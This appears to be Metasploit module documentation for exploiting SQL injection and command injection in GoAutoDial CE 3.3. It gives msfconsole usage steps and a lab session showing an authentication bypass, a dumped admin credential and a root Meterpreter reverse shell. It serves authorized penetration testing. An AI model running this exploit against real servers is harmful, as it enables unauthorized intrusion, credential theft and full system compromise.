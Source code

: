## Description

This module exploits a SQL injection flaw and command injection flaw within GoAutoDial CE 3.3, which permits authentication bypass and a complete compromise of the underlying system with root privileges. This module also extracts the administrative users password from the underlying database. 

## Affected software

GoAutoDial 3.3 CE (32bit and 64bit) is available for download from goautodial.org. In order to download, register a free account then download the bootable ISOs. Both ISOs have been used for the dev of this. http://goautodial.org/attachments/download/3237/goautodial-32bit-ce-3.3-final.iso.html
Refer to: https://www.exploit-db.com/exploits/36807/

## Verification

- Start `msfconsole`
- Do `use exploit/linux/http/goautodial_3_rce_command_injection`
- Do `set RHOST <IP>`
- Do `set LHOST <IP>`
- Do `set LPORT <PORT>`
- Do `run`
- Wait for shell

## Scenarios

```
msf > use exploit/linux/http/goautodial_3_rce_command_injection
msf exploit(goautodial_3_rce_command_injection) > set rhost 172.16.191.150
rhost => 172.16.191.150
msf exploit(goautodial_3_rce_command_injection) > check
[+] 172.16.191.150:443 The target is vulnerable.
msf exploit(goautodial_3_rce_command_injection) > set lhost 172.16.191.181
lhost => 172.16.191.181
msf exploit(goautodial_3_rce_command_injection) > run

[*] Started reverse TCP handler on 172.16.191.181:4444 
[*] 172.16.191.150:443 - Trying SQL injection...
[+] 172.16.191.150:443 - Authentication Bypass (SQLi) was successful
[*] 172.16.191.150:443 - Dumping admin password...
[+] 172.16.191.150:443 - Found credentials: admin|goautodial|Admin|||Y
[*] 172.16.191.150:443 - Sending payload...
[*] Command Stager progress -  68.67% done (798/1162 bytes)
[*] Sending stage (2854264 bytes) to 172.16.191.150
[*] Meterpreter session 1 opened (172.16.191.181:4444 -> 172.16.191.150:52876) at 2017-07-02 11:08:02 -0400
[*] Command Stager progress - 100.00% done (1162/1162 bytes)

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : go.goautodial.org
OS           : CentOS 5.11 (Linux 2.6.18-407.el5)
Architecture : x64
Meterpreter  : x64/linux
```

